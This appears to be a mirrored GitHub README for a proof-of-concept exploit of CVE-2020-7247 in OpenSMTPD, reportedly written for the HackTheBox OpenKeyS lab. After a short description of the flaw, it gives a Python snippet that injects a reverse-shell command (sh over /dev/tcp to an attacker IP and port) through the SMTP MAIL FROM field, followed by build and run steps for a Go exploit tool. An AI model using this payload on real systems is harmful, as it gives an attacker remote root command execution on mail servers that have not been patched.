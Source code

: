 # CVE-2020-7247

CVE-2020-7247 Remote Code Execution POC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gatariee](https://github.com/gatariee) |
| Url      | [https://github.com/gatariee/CVE-2020-7247](https://github.com/gatariee/CVE-2020-7247)                                               |
| Stars    | 1                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* go* python

</details>

## Readme


# CVE-2020-7247

OpenSMTPD version 6.6, which is used in OpenBSD 6.6 and other software, contains a vulnerability in the "smtp_mailaddr" function in the "smtp_session.c" file. This vulnerability can be exploited by a remote attacker by sending a specially crafted SMTP session that contains shell metacharacters in the "MAIL FROM" field. If exploited, this vulnerability could allow an attacker to execute arbitrary commands as the root user on the affected system. The vulnerability is present in the default configuration and is caused by a flaw in input validation that returns an incorrect value upon failure.
<br>
<br>
Author: @gatariee 
<br>
Exploited created for HackTheBox's OpenKeyS (unintended solution, oh well)

Replace your [revshells](https://www.revshells.com/) with anything you want.

## Exploit Example
```python
conn.send(b'HELO x')
s.recv(1024)
conn.send(b'MAIL FROM: <;{sh -i >& /dev/tcp/192.168.4.1/9001 0>&1};>)')
s.recv(1024)
s.send(b'RCPT TO:<root@localhost>')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'sad\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
...
```






## Usage

```bash
git clone https://github.com/gatariee/CVE-2020-7247
cd cve-2020-7247
go build cve-2020-7247.go -o /cve-2020-7247
chmod +x cve-2020-7247
./cve-2020-7247
```





## Get the content

```
git clone https://github.com/gatariee/CVE-2020-7247
cd CVE-2020-7247
```

{% embed url="https://github.com/gatariee/CVE-2020-7247" %}

<figure><img src="https://avatars.githubusercontent.com/u/79693291?v=4" alt=""><figcaption><p>gatariee</p></figcaption></figure>
